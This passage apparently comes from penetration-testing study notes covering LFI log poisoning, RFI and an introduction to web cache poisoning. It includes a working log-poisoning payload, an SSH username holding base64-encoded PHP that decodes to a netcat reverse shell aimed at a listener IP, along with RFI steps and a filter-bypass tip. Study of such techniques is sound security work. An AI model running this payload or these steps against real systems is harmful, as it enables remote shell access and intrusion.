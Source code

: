 	Then we tell php to decode the command once it gets executed

		ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxMC4yMC4xNC4yIDIyMjIK'));?>"@10.10.10.10

- Then access the log file via LFI.

***We can try this techniques with all the logs files as long as we have access to it.***  

# RFI
Similar to LFI but this time, instead of access a file localy, we try to access a file on a remote machine.

- Create a web server
- Write a simple txt file with a malicious code

	![image.png](../_resources/e5e125940a27cf48419c6d063d7951a3.png)

- Access it via the browser

	![image.png](../_resources/9cf781d8ebbb55e4b3354fc4cc1344a0.png)

	We can try to bypass filters by replace http by hTTp, for example.

# Web Cache Poisoning
[reference](https://snyk.io/blog/cache-poisoning-in-popular-open-source-packages/?utm_source=newsletter&utm_medium=email&utm_campaign=bug_bytes_107_go_for_http_smuggling_open_source_frameworks_vs_cache_poisoning_practicing_rce_in_nodejs_apps&utm_term=2021-02-01)
## What is a cache proxy?
Cache proxy is a part of a `reverse proxy` – an intermediate connection between the client and the web server.

## How does caching work?
Caching is storing frequently accessed content in order to speed up subsequent requests to access that content.
